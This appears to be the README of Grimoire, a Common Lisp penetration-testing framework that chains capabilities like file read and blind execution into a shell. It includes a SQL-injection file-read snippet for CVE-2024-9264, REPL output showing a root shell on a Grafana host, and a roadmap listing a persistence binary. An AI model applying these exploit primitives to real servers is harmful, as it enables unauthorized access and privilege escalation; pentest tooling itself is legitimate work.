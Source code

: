 # Grimoire

<p align="center">
  <img src="https://github.com/user-attachments/assets/127f9116-e1d9-4ccc-9c22-ee17c3afda75"/>
</p>

<p align="center">
  A collection of utilities designed to facilitate reconnaissance, exploitation, persistence, and privilege escalation (only for educational purposes).
</p>

## Installation

To use Grimoire, clone the repository to your local machine.

```bash
$ git clone https://github.com/solanav/grimoire
```

After that, launch your common lisp environment (be it Lem, Emacs or any other IDE) and load Grimoire with:

```lisp
CL-USER> (ql:quickload :grimoire)
```
    
You should then enter the package and start working on the system itself, rather than using it from another package:
    
```lisp
CL-USER> (in-package :grimoire)
```
    
## Concepts

- **Glyphs**: Created using `define-glyph`. They expose some type of operation to the framework such as reading files (:READ) , blind code execution (:BLIND-EXEC), file uploads (:WRITE), etc.

- **Spells**: Created using `define-spell`. They use the glyphs available to do interesting or useful operations on the objective. For example, the recipe `download-all` allows the user to download all files in a given remote path if the glyph :EXEC is available to Grimoire.
    
- **Transmutations**: Created using `define-transmutation`. They allow Grimoire to derive new capabilities from already implemented ones. For example, if you have both the :READ and :BLIND-EXEC capabilities, you will be able to derive the :EXEC through a transmutation.
    
- **Relics**: Managed through the functions starting with `relic/*`. A basic and global key-value store.

## Usage

Once you have Grimoire loaded, you can start using its utilities. First you should find an entry point to the system you are trying to exploit.

If you find a way of reading files in the remote server for example, you can create a function called `read-CVE-2024-9264` that reads files from the remote server:

```lisp
(define-glyph :read read-CVE-2024-9264 (file)
  (let* ((text (str:replace-all
                "\\x0A" (fmt "~%")
                (send-request-to-vulnerable-server
                 (fmt "SELECT content FROM read_blob(\"~a\")"
                      file))))
         (text-len (1- (length text))))
    (if (plusp text-len)
        (subseq text 0 text-len)
        "")))
```

Grimoire now unlocks a bunch of spells that you can use to progress further, for example:

```lisp
GRIMOIRE> (all-users)
("root" "daemon" "bin" "sys" "sync" "games" "man" "lp" "mail"
 "news" "uucp" "proxy" "www-data" "backup" "list" "irc" "gnats"
 "nobody" "_apt" "grafana")

GRIMOIRE> (system-info)
(("PRETTY_NAME" . "Ubuntu 22.04.4 LTS")
 ("NAME" . "Ubuntu") 
 ("VERSION_ID" . "22.04")
 ("VERSION" . "22.04.4 LTS (Jammy Jellyfish)")
 ("VERSION_CODENAME" . "jammy") 
 ("ID" . "ubuntu")
 ("ID_LIKE" . "debian")
 ("HOME_URL" . "https://www.ubuntu.com/")
 ("SUPPORT_URL" . "https://help.ubuntu.com/")
 ("BUG_REPORT_URL" . "https://bugs.launchpad.net/ubuntu/")
 ("PRIVACY_POLICY_URL" . "https://.../privacy-policy")
 ("UBUNTU_CODENAME" . "jammy"))
```
    
If you now create another capability to do blind execution of code:

```lisp
(define-capability :blind-exec blind-exec-CVE-2024-9264 (command)
  (send-request-to-vulnerable-server
   (fmt *exploit* command)))
```
    
So now if we check our current capabilities:
```lisp
GRIMOIRE> (capability/list)
(:READ :BLIND-EXEC)
```
    
Running `derivation/list` will yield:
```lisp
GRIMOIRE> (derivation/list)
[+] Derivation "LET-THERE-BE-LIGHT"
    Runnable? [YES] (needs :READ, :BLIND-EXEC)
    Needed?   [YES] (provides :EXEC)

[+] Derivation "CAT"
    Runnable? [NO] (needs :EXEC)
    Needed?   [NO] (provides :READ)
```
    
So lets run the first derivation in the REPL:
```lisp
GRIMOIRE> (derivation/run :let-there-be-light)
[+] Added new capability: :EXEC
```

So lets test it with the `fake-shell` recipe:
```lisp
GRIMOIRE> (fake-shell)
[/usr/share/grafana]$ ls
LICENSE
bin
conf
public

[/usr/share/grafana]$ whoami
root

[/usr/share/grafana]$ exit
```

## Roadmap

In no particular order:

- [ ] Package Grimoire with Lem so it can be used as a standalone tool.
- [ ] Add an easy way to create POCs and export them so Grimoire can use them.
- [ ] Add write utilities to Grimoire.
- [x] Add execute utilities to Grimoire.
- [ ] Add a more precise way of expressing capabilities and not just `:read`, `:write` and `:execute`.
- [ ] Add a graph like representation of capabilities and how they can be chained together.
- [ ] Add a way to easily share capabilities with other users.
- [ ] Add some kind of database to store loot and other stuff.
- [ ] Add logging.
- [ ] Add a way to easily create a report of the pentest.
- [ ] Add some testing maybe.
- [x] Add a deployable binary for persistance.
